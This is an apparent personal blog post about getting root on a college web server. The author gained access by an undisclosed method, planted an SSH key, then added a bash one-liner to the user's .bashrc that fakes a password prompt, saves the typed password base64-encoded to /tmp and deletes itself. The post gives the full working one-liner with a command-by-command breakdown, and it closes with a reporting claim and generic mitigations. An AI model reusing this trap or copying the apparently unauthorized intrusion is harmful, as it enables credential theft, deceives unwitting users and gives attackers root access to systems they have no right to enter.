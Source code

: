 ```yaml
---
title: "Using Social Engineering for Privilege Escalation"
description: This blog explores how I successfully escalated privileges to root on a remote server through social engineering, highlighting the techniques used and offering mitigation strategies to prevent such attacks.
date: 2024-09-23T05:28:07+05:30
image: assets/images/password_prompt.png
math: 
license: 
hidden: false
comments: true
draft: false
tags: ["cybersecurity", "social engineering", "privilege escalation", "infosec", "hacking"]
categories: ["social engineering", "hacking", "privilege escalation"]
---
```

## Prologue
While exploring devices on my college network, I managed to gain Remote Desktop Access to a server for one of our institute's websites. The method I used to obtain access to the interface is out of the scope of this blog.<br />
![Remote Desktop Access](assets/images/remote_desktop_interface.png)<br />
Upon gaining access, I found that the server was running **Ubuntu**. The terminal displayed **user** as the current user.<br />
![Terminal](assets/images/current_user.png)<br />
I added my public key to */home/user/.ssh/authorized_keys* and checked the SSH connection.<br />
![User SSH Connection](assets/images/user_ssh_connection.png)<br />
With SSH access confirmed, it was time to escalate our privileges to the ***root*** user.
## Privilege Escalation
Initially, I explored various SUIDs, SGIDs, Cronjob Files, the Shadow File, shared libraries, and other system components to find potential vulnerabilities. <br />
After finding no useful exploits, I downloaded and executed [linPEAS](https://github.com/peass-ng/PEASS-ng) to search for additional attack surfaces, but it was not successful.<br />
## Social Engineering
> "I'M GOOD AT READING PEOPLE. MY SECRET. I LOOK FOR THE WORST IN THEM." - Mr.Robot
<!-- -->
This line from Mr. Robot inspired me after my initial methods for privilege escalation failed.<br />
I devised a strategy to obtain the password for **user** using a social engineering approach.<br />
I created a single-line bash script to be appended to */home/user/.bashrc*.<br />
```bash
echo -n 'password for user: '; read -s password; echo -n $password | base64 >/tmp/tmp.txt; grep -v 'random_signature' /home/user/.bashrc >/tmp/tmp; mv /tmp/tmp /home/user/.bashrc; chmod 644 ~/.bashrc; echo '';
```
Let's Understand this command-by-command
* Prints **password for user:** on the screen, tricking the user into thinking it’s a prompt for their password.
```bash
echo -n 'password for user: '
```
* Inputs the password in silent mode, so it doesn’t appear on the screen.
```bash
read -s password
```
* Encodes the password in **base64** and saves it to */tmp/tmp.txt*.
```bash
echo -n $password | base64 >/tmp/tmp.txt
```
* Removes lines containing **random_signature** from */home/user/.bashrc*, ensuring it doesn’t affect the file’s functionality.
```bash
grep -v 'random_signature' /home/user/.bashrc >/tmp/tmp
```
* Replaces the original **.bashrc** file with the modified version.
```bash
mv /tmp/tmp /home/user/.bashrc
```
* Restores the original file permissions for **.bashrc**
```bash
chmod 644 ~/.bashrc
```
After appending this line to */home/user/.bashrc*, every time a new terminal was opened, it would prompt the **user** for their password.<br />
![Password Prompt](assets/images/password_prompt.png)<br />
Once the user entered their password, the line would be removed from **.bashrc**, restoring the file to its original state. I could then SSH into the machine and retrieve the base64 encoded password from */tmp/tmp.txt*.<br />
Although there were concerns about potential failures, such as entering the wrong password or pressing **CTRL+C**, the method worked successfully after a few days.
## Obtaining Password
A few days later, I logged in as **user** via SSH and found that it wasn’t prompting for a password. I checked */tmp/tmp.txt* and found the base64 encoded password.<br />
![Base64 Encoded Password](assets/images/base64_password.png)<br />
After Decoding it, I obtained the password.<br />
![Base64 Decoding](assets/images/base64_decoding.png)<br />
Finally, I verified the success of my social engineering method by checking for root access.<br />
![Sudo Bash](assets/images/sudo_bash.png)<br />
There We have the **root** user!
## Reporting
As a responsible and ethical individual, I reported the findings to the concerned authorities. They have since addressed and fixed the issues discussed.
## Mitigations
**Social Engineering** remains one of the most dangerous methods of compromising security because it exploits human psychology rather than technical vulnerabilities. The weakest link in any security system is often the human element. Even the most secure systems can be breached if someone is tricked into revealing sensitive information or executing malicious commands.<br />
To mitigate the risk of social engineering attacks:
* **Security Awareness Training**: Regularly train employees to recognize and respond to social engineering tactics.
* **Verification Procedures**: Implement strict verification processes for sensitive actions or information requests.
* **Multi-Factor Authentication (MFA)**: Use MFA to add an extra layer of security beyond just passwords.
* **Monitor and Audit**: Regularly monitor and audit access logs for suspicious activity.
<!-- -->
By addressing these areas, you can significantly reduce the risk posed by social engineering and other similar attacks.